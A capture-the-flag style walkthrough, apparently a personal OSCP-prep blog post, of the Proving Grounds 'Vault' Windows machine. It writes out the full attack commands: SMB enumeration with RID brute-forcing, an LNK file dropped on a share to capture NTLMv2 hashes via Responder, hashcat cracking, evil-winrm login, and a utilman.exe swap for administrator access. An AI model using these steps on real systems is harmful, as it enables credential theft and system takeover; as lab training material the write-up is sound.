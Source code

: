 ```yaml
---
title: Vault Walkthrough - Proving grounds
tags: NTLMv2 SeRestorePrivilege
categories: Windows
---
```

In this entry I will solve the proving grounds Vault machine. It is a Windows machine in the TJ Null list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Service enumeration

`nmap -sC -sV -p135,139,53,3389,445,3269,9389,636,593,5985,389,88,464,3268 -Pn -o targeted.txt 192.168.219.172`

![046db56c571a4d9dba18aa347f708bde.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/046db56c571a4d9dba18aa347f708bde.png?raw=true)

# Samba enumeration

I can not connect witha  null session, so I try with "guest" username, also I try to bruteforce usernames using rid-brute parameter.

`crackmapexec smb 192.168.219.172 --shares -u 'guest' -p '' --rid-brute`

![d9e5a4c131df2fe0861e7a1d57d7fe27.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/d9e5a4c131df2fe0861e7a1d57d7fe27.png?raw=true)

I try asp reproast attack with the found users but I have no luck.

The previous image shows the permissions (Read & Write), as Ii can upload files to DocumentShare, I try to find a possible attack vector and I come across with this [post](https://vegardw.medium.com/using-lnk-files-to-steal-netntlmv2-hashes-while-living-off-the-land-63a10d35711d)

![678bcbd99a2fd7a22eec9206bc3bfcc3.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/678bcbd99a2fd7a22eec9206bc3bfcc3.png?raw=true)

# LNK file upload to steal NTLMv2 hashes

I find this [tool](https://github.com/dievus/lnkbomb) on Github that automates all the process

I start the responder in my attacker machine ready to get the hashes and run lnkbomb.py

`sudo responder -I tun0 -v`

`python3 lnkbomb.py -t 192.168.219.172 -a 192.168.45.201 -s DocumentsShare -u guest -p '' -n DC --windows`

![5b1ad1aa74da9d7b226b9c555ed66111.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/5b1ad1aa74da9d7b226b9c555ed66111.png?raw=true)

I check the file has been uploaded

![1a6eeb7824884ac399fa7a9a161b1314.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/1a6eeb7824884ac399fa7a9a161b1314.png?raw=true)

I go back to the responder tab and the hash for anirudh user is shown

![789293711a0c18b39557a9ff0b4e6fa3.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/789293711a0c18b39557a9ff0b4e6fa3.png?raw=true)

Then I crack it , fort that, i copy paste the hash to a file and then run hashcat

![e807728b98806e04ba8b73d24b072830.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/e807728b98806e04ba8b73d24b072830.png?raw=true)

`hashcat hash.txt /usr/share/wordlists/rockyou.txt`

![2b0e143db1e92c6202312b8f94c58da2.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/2b0e143db1e92c6202312b8f94c58da2.png?raw=true)

After getting the password, I log in with evilwinrm to the victim machine

`evil-winrm -i vault.offsec -u 'ANIRUDH' -p 'SecureHM'`

# Privesc SeRestorePrivilege

Running `whoami /priv` I get the following:

![03379d084d672c9a4a2c0b37856217f7.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/03379d084d672c9a4a2c0b37856217f7.png?raw=true)

I find on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) a way to escalate

![1d81924e1788e9a749e6a4824eff0081.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/1d81924e1788e9a749e6a4824eff0081.png?raw=true)

I run

`mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old`

`mv C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe`

Then, connect though rdp and do WIN+U, a cmd will appear with Adminsitrator privileges

`rdesktop 192.168.219.172`

![1604b85701f435f32d8bfcb13422dcdc.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Vault/1604b85701f435f32d8bfcb13422dcdc.png?raw=true)

Pwn3d! :D
